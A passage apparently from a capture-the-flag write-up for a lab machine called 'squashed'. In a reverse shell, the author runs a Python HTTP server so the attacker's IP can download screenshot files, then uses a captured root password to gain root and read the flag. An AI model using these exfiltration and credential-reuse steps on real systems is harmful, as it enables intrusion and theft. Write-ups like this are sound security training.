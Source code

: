 ![](squashed_res/squashed_root_creds.png)
Muaaaahahaha!!! Jackpot!   

Back to the victim's revshell:  
```bash
alex@squashed:/home/alex$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.14.166 - - [17/Apr/2023 12:56:52] "GET /screenshot.vwd HTTP/1.1" 200 -
10.10.14.166 - - [17/Apr/2023 12:57:05] "GET /screenshot.xwd HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
alex@squashed:/home/alex$ su root
Password: # cah$mei7rai9A
root@squashed:/home/alex# id
uid=0(root) gid=0(root) groups=0(root)
root@squashed:/home/alex# cd 
root@squashed:~# ls
Desktop    Downloads  Pictures  root.txt  snap       Videos
Documents  Music      Public    scripts   Templates
root@squashed:~# cat root.txt 
02************
```
Root flag obtained!   
